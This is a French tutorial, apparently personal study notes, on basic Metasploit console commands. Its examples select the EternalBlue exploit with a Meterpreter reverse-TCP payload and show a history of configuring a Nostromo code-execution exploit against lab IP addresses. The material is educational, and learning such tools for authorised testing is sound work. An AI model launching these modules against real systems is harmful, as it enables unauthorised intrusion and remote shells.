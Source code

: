 
La **console metasploit** est l'outil avec lequel on va **interragir avec nos modules**, pour la lancé la commande est **`msfconsole`**.

```shell
┌──(azure㉿kali)-[~]
└─$ msfconsole

                                  .::::::::::-.                     .::::::-
                                .hmMMMMMMMMMMNddds\...//M\\.../hddddmMMMMMMNo
                                 :Nm-/NMMMMMMMMMMMMM$$NMMMMm&&MMMMMMMMMMMMMMy
                                 .sm/`-yMMMMMMMMMMMM$$MMMMMN&&MMMMMMMMMMMMMh`
                                  -Nd`  :MMMMMMMMMMM$$MMMMMN&&MMMMMMMMMMMMh`
                                   -Nh` .yMMMMMMMMMM$$MMMMMN&&MMMMMMMMMMMm/
    `oo/``-hd:  ``                 .sNd  :MMMMMMMMMM$$MMMMMN&&MMMMMMMMMMm/
      .yNmMMh//+syysso-``````       -mh` :MMMMMMMMMM$$MMMMMN&&MMMMMMMMMMd
    .shMMMMN//dmNMMMMMMMMMMMMs`     `:```-o++++oooo+:/ooooo+:+o+++oooo++/
    `///omh//dMMMMMMMMMMMMMMMN/:::::/+ooso--/ydh//+s+/ossssso:--syN///os:
          /MMMMMMMMMMMMMMMMMMd.     `/++-.-yy/...osydh/-+oo:-`o//...oyodh+
          -hMMmssddd+:dMMmNMMh.     `.-=mmk.//^^^\\.^^`:++:^^o://^^^\\`::
          .sMMmo.    -dMd--:mN/`           ||--X--||          ||--X--||
........../yddy/:...+hmo-...hdd:............\\=v=//............\\=v=//.........



       =[ metasploit v6.3.10-dev-                         ]
+ -- --=[ 2303 exploits - 1203 auxiliary - 412 post       ]
+ -- --=[ 965 payloads - 46 encoders - 11 nops            ]
+ -- --=[ 9 evasion                                       ]

Metasploit tip: When in a module, use back to go
back to the top level prompt
Metasploit Documentation: https://docs.metasploit.com/

msf6 >
```

Une fois lancé, vous pouvez interragir avec la console comme si c'était un **shell banal à l'exception de quelques commandes** comme ci-dessous :

```shell
msf6 > help > help.txt 
[-] No such command 
msf6 >
```

### Help

On peut utiliser la commande **`help`** afin d'avoir des **informations sur des commandes** :

```shell
msf6 > help set
Usage: set [option] [value]

Set the given option to value. If value is omitted, print the current value.
If both are omitted, print options that are currently set.

If run from a module context, this will set the value in the module's
datastore. Use -g to operate on the global datastore. 

If setting a PAYLOAD, this command can take an index from `show payloads'.

msf6 >
```

### History

On peut utiliser la commande **`history`** pour avoir l'historique des commandes tapées précédemment.

```shell
msf6 > history 
1 use exploit/multi/http/nostromo_code_exec
2 set lhost 10.10.16.17 
3 set rport 80 
4 options 
5 set rhosts 10.10.29.187
6 run 
7 exit 
8 exit -y 
9 version 
10 use exploit/multi/script/web_delivery
```

### Use

La commande **`use`** permet d'utiliser un module. 

```shell
msf6 > use exploit/windows/smb/ms17_010_eternalblue 
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) >
```

Vous remarquerez qu'on peut toujours utiliser les commandes comme `ls`, cela signifie qu'on est pas entré dans un dossier comme on pourrait croire.

### Show options

Une commande importante lorsqu'on veut utiliser un module, est **`show options`**, elle nous affiche les options qu'attends le module.

```shell
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue): 

	Name          Current Setting Required Description 
	----          --------------- -------- ----------- 
	RHOSTS                        yes The target host(s), range CIDR identifier, or hosts file with syntax 'file:'
	RPORT         445             yes The target port (TCP)
	SMBDomain     .               no (Optional) The Windows domain to use for authentication
	SMBPass                       no (Optional) The password for the specified username
	SMBUser                       no (Optional) The username to authenticate as 
	VERIFY_ARCH   true            yes Check if remote architecture matches exploit Target.
	VERIFY_TARGET true            yes Check if remote OS matches exploit Target.


Payload options (windows/x64/meterpreter/reverse_tcp): 

Name     Current Setting Required Description
----     --------------- -------- ----------- 
EXITFUNC thread          yes      Exit technique (Accepted: '', seh, thread, process, none) 
LHOST    10.10.220.191   yes      The listen address (an interface may be specified) 
LPORT    4444            yes      The listen port

Exploit target: 

	Id Name 
	-- ---- 
	0  Windows 7 and Server 2008 R2 (x64) All Service Packs


msf6 exploit(windows/smb/ms17_010_eternalblue) >
```

### Show

La commande **`show`**  peut être utilisé avec tout type de modules, si elle est exécuté à partir de l'invite msfconsole, elle listera tous les modules.

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > show payloads

Compatible Payloads
===================

#  Name                                       Disclosure Date Rank   Check Description
-  ----                                       --------------- ----   ----- ----------- 
0  generic/custom                                             manual No    Custom Payload
1  generic/shell_bind_tcp                                     manual No    Generic Command Shell, Bind TCP Inline
2  generic/shell_reverse_tcp                                  manual No    Generic Command Shell, Reverse TCP Inline 
3  windows/x64/exec                                           manual No    Windows x64 Execute Command 
4  windows/x64/loadlibrary                                    manual No    Windows x64 LoadLibrary Path
5  windows/x64/messagebox                                     manual No    Windows MessageBox x64 
6  windows/x64/meterpreter/bind_ipv6_tcp                      manual No    Windows Meterpreter (Reflective Injection x64), Windows x64 IPv6 Bind TCP Stager
7  windows/x64/meterpreter/bind_ipv6_tcp_uuid                 manual No    Windows Meterpreter (Reflective Injection x64), Windows x64 IPv6 Bind TCP Stager with UUID Support
```


### Back

La commande **`back`** permet de quitter un contexte.

```shell
msf6 exploit(windows/smb/ms17_010_eternalblue) >back
msf6 >
```